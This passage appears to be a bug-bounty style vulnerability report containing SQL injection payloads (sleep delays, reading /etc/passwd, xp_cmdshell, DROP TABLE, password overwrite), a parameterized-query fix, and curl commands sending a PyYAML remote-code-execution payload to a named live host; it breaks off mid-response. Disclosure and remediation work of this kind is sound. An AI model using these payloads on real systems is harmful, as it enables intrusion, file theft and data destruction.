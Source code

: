 ```sql
-- Time-based attacks
'; WAITFOR DELAY '00:00:05'--
'; SELECT SLEEP(5)--

-- PostgreSQL file access (CVE-2025-1094)
'; SELECT pg_read_file('/etc/passwd')--
'; SELECT lo_export((SELECT convert_from(pg_read_file('/etc/passwd'),'UTF8')),'/tmp/passwd')--

-- MySQL file access
'; SELECT LOAD_FILE('/etc/passwd')--

-- MSSQL command execution
'; EXEC xp_cmdshell('whoami')--

-- Destructive payloads
'; DROP TABLE users--
'; UPDATE users SET password='hacked' WHERE id=1--
```

#### **Remediation:**
```python
# Secure authentication with parameterized queries
import sqlite3

def authenticate_user(username, password):
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    
    # Use parameterized query
    cursor.execute(
        "SELECT * FROM users WHERE username = ? AND password = ?",
        (username, password)
    )
    
    user = cursor.fetchone()
    conn.close()
    return user
```

### **2. YAML Deserialization Remote Code Execution (CVSS 9.8)**

#### **Submission Summary:**
- **Type**: Insecure Deserialization via YAML
- **Impact**: Remote Code Execution (RCE)
- **Evidence**: Command execution confirmed (`"result": "root"`)
- **CVE Mapping**: CVE-2020-17453 (PyYAML), CVE-2017-18342 (Ruby YAML)
- **Business Impact**: Complete server compromise, data breach

#### **Live Exploitation Proof:**
```bash
# Step 1: Basic YAML processing
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "test: value"}'

# Step 2: RCE payload
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"yaml": "!!python/object/apply:subprocess.call [[\"whoami\"]]"}'

# Expected Response:
{
```